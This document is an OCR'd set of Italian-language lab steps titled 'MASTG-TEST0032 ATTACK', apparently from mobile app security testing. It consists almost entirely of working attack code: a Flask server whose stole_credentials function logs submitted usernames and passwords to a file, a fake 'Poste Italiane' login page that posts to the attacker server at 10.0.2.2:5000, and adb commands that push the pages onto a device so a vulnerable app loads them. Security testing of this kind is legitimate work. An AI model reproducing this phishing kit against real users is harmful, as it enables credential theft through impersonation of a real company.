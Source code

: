 MASTG-TEST0032 ATTACK
- creare file app.py:
    from flask import Flask,request,render_template
    app = Flask(__name__)
    @app.route('/')
    def home():
        return render_template("home.html")
    @app.route('/login', methods=['GET','POST'])
    def attack():
        error = None
        if request.method == 'POST':
            name=request.form['username']
            pwd=request.form['pwd']
            if name!= "" or pwd!="":
                stole_credentials(name,pwd)
            else:
                error = 'Invalid username/password'
        else:
            return render_template("login.html")
        # the code below is executed if the request method
        # was GET or the credentials were invalid
        return render_template('login.html', error=error)
    def stole_credentials(user,pwd):
        file_path = 'example.txt'
        # Open the file in 'write' mode ('a')
        # This will create a new file if it doesn't exist or truncate the file if it exists
        with open(file_path, 'a+') as file:
            # Write content to the file
            file.write("Username:"+user+" Pwd: "+pwd+"\n")
        return render_template("home.html",name=user)
- creare cartella templates ed inserire i seguenti file.
- creare file home.html:
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>EXPLOIT</title>

    </head>
    <body>
        <p>For the login on Poste follow this <a href="login.html">link</a></p>
            
    </body>
    </html>
- creare file login.html:
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>EXPLOIT</title>

    </head>
    <body>

        <h1>Poste Italiane</h1>
        <h2>Accedi o Registrati</h2>
        <form action="http://10.0.2.2:5000/login" method="POST">
            <input type="text" name="username" id="username" placeholder="Username o Email"><br>
            <input type="text" name="pwd" id="password" placeholder="Password"><br>
            <input type="submit" value="login" >
        </form>
            
    </body>
    </html>

- pushare nel dispositivo mobile in /sdcard/Android/data i file home.html e login.html:
    adb push home.html /sdcard/Android/data
    adb push login.html /sdcard/Android/data
- runnare server : flask --app app run
- lanciare applicazione.
